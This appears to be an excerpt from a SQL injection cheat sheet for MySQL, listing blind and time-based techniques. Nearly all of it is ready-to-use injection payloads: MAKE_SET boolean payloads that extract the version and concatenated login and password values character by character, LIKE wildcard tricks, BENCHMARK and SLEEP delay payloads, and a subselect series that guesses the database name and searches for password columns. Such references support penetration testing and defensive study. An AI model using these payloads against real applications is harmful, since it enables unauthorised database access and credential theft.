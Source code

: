 ### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```


### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```


## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

* MySQL 4/5 : `BENCHMARK()`
    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '%2Bbenchmark(3200,SHA1(1))%2B'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
    ```
* MySQL 5: `SLEEP()`
    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    ```

### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```
